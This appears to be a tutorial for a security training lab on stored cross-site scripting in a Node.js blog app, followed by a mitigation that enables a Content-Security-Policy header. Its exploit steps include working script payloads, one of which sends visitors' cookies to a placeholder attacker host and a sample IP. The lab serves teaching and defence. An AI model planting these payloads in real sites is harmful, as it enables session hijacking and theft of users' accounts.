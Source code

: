 ```yaml
---
server_id: xssStored
language: node
---
```


<!-- explore-start -->

The rightmost browser window has a Public Blog Post Site.
To add a new post click the "Add" button and type in the new post content.
After the post is saved in the backend server a new entry in public Blog Post would appear with the content that we just provided.

You can explore and add more posts.

<!-- explore-end -->
<!-- exploit-start -->

### Step 1:

Now to see if the input is not sanitized properly before storing it in the backend we type in the below code as input for the blog post.

```html
<script>
  alert('popup text');
</script>
```

After you enter the above text you'll get a pop up with text "popup text", which indicates that this public Blog Post is vulnerable to executable javascript via public posts.

### Step 2

This Blog is Vulnerable to many exploits. We focus on Cookie Stealing.

next, to check if the public post has a users session we type the following text as a new blog post.

```html
<script>
  alert(document.cookie);
</script>
```

After you enter the above text you'll see a pop with the cookie.

### Step 3

For Malicious attacker to exploit this vulnerability and save the session cookies of anyone who visits this public post we have to get the cookie and pass it to some hacker server that would store it.
To Simulate such an attack, replace {HACKER_SERVER_HOST} with the IP address of the terminals public IP and post it as a new blog post.

```html
<script>
  document.write(
    '<img src="http://{HACKER_SERVER_HOST}:5000/hacker_server/submit_cookie?cookie=' +
      escape(document.cookie) +
      '" />',
  );
</script>
```

for ex:

```html
<script>
  document.write(
    '<img src="http://72.56.45.584:5000/hacker_server/submit_cookie?cookie=' +
      escape(document.cookie) +
      '" />',
  );
</script>
```

lets break the above text down

- document.write is going to dump it's content as plain text.
- img tag's src contains the endpoint where the hacker server is listening for incomming stolen cookie information.
- the query parameter 'cookie' is used and it's value is escaped to make the cookie value single query value in case the cookie value contains '&'.
- The img src url is going to save the cookie in a text file and serve the blog website an image.

### Step 4

After the above post have been published, anyone who'll visit the Public Blog Post would send their cookie information to hacker_server.
To verify the saved cookies type the following command in the terminal.

```
cat /app/hacker_server/cookies.txt
```

if this Public Blog Post would have had some sensitive user information or some monetary shopping transactions.
then the hacker would be able to [hijack the user session](https://www.netsparker.com/blog/web-security/session-hijacking/#:~:text=Session%20hijacking%20is%20an%20attack,ends%20when%20you%20log%20out.) and do all sorts of harm.

<!-- exploit-end -->
<!-- mitigate-start -->

The Node.js Server for our Public Blog Post has No [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP). To Enable the CSP do the following

- navigate to /app/routes/index.js's line number 16 via.

```sh
vim /app/routes/index.js +16
```

- and uncomment the line with the following code

```js
res.setHeader('Content-Security-Policy', "script-src 'self'");
```

the above line restricts the browser to only execute javascript served from the site's own origin and blocks any inline javascript. Hence mitigating the XSS vulnerability.

<!-- mitigate-end -->

